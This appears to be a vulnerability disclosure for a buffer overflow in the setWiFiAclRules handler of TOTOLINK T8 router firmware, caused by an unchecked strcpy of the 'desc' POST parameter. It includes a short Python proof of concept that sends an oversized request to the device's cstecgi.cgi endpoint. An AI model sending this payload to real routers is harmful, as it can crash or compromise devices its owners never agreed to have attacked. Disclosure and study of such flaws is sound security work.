 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setWiFiAclRules` function. The `v8` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902123605993](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902123605993.png)

![image-20240902123543507](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902123543507.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWiFiAclRules",
"addEffect":"1",
"mac":"111",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)
